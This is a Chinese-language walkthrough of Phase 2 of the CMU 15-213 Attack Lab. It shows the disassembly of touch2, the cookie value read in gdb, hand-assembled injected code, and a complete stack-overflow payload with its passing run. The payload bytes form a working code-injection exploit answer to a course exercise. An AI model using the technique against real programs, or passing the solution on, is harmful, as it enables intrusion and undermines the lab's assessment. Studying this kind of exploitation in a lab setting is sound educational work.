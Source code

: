# Phase 2

```log
0000000000401867 <touch2>:
  401867:       48 83 ec 08             sub    $0x8,%rsp
  40186b:       89 fa                   mov    %edi,%edx
  40186d:       c7 05 85 2c 20 00 02    movl   $0x2,0x202c85(%rip)        # 6044fc <vlevel>
  401874:       00 00 00 
  401877:       39 3d 87 2c 20 00       cmp    %edi,0x202c87(%rip)        # 604504 <cookie>
  40187d:       74 2a                   je     4018a9 <touch2+0x42>
  40187f:       48 8d 35 c2 19 00 00    lea    0x19c2(%rip),%rsi        # 403248 <_IO_stdin_used+0x358>
  401886:       bf 01 00 00 00          mov    $0x1,%edi
  40188b:       b8 00 00 00 00          mov    $0x0,%eax
  401890:       e8 4b f5 ff ff          callq  400de0 <__printf_chk@plt>
  401895:       bf 02 00 00 00          mov    $0x2,%edi
  40189a:       e8 64 05 00 00          callq  401e03 <fail>
  40189f:       bf 00 00 00 00          mov    $0x0,%edi
  4018a4:       e8 87 f5 ff ff          callq  400e30 <exit@plt>
  4018a9:       48 8d 35 70 19 00 00    lea    0x1970(%rip),%rsi        # 403220 <_IO_stdin_used+0x330>
  4018b0:       bf 01 00 00 00          mov    $0x1,%edi
  4018b5:       b8 00 00 00 00          mov    $0x0,%eax
  4018ba:       e8 21 f5 ff ff          callq  400de0 <__printf_chk@plt>
  4018bf:       bf 02 00 00 00          mov    $0x2,%edi
  4018c4:       e8 6a 04 00 00          callq  401d33 <validate>
  4018c9:       eb d4                   jmp    40189f <touch2+0x38>
```

touch2与touch1有所不同，需要传入1个参数与之比较。

```log
(gdb) display/x cookie
5: /x cookie = 0x1fb6091a
```

比较对象cookie的内容如上所示，与同目录下的cookie.txt一致。当传入与之相同的值时，程序会跳转到4018a9继续执行，否则将以Fail的方式退出。

由于需要传入参数，使用touch1中仅跳转的方法是不够的，需要通过执行代码，修改寄存器（传递参数）再跳转到touch2。

在getbuf所输入的数据，会加载到内存中，如果将跳转位置指定到输入数据所保存的位置，那么便可以执行代码。

根据前面的分析，可以构造出以下代码：

```log
movq $0x1fb6091a, %rdi
pushq $0x401867
ret
```

通过gcc编译，再使用objdump可以导出其十六进制表示。

```log
touch2.bin:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 1a 09 b6 1f    mov    $0x1fb6091a,%rdi
   7:   68 67 18 40 00          pushq  $0x401867
   c:   c3                      retq
```

将其组合并按顺序排列，可以得到以下内容。

```log
48 c7 c7 1a 09 b6 1f 68 67 18 40 00 c3
```

然后通过gdb调试，获取输入数据所存储的位置。

```log
(gdb) p/x $rsp
$2 = 0x5567e2f8
```

同样按照小端法构造跳转地址，最终构造出以下结果。

```log
48 c7 c7 1a 09 b6 1f 68 67 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 f8 e2 67 55 00 00 00 00
```

最后运行，便可通过。

```log
hsojo@ubuntu:~/Downloads/target<stu_number>$ ./hex2raw -i touch2.txt | ./ctarget -q
Cookie: 0x1fb6091a
Type string:Touch2!: You called touch2(0x1fb6091a)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
    user id <stu_number>
    course  15213-f15
    lab attacklab
    result  -259586058:PASS:0xffffffff:ctarget:2:48 C7 C7 1A 09 B6 1F 68 67 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 F8 E2 67 55 00 00 00 00 
```

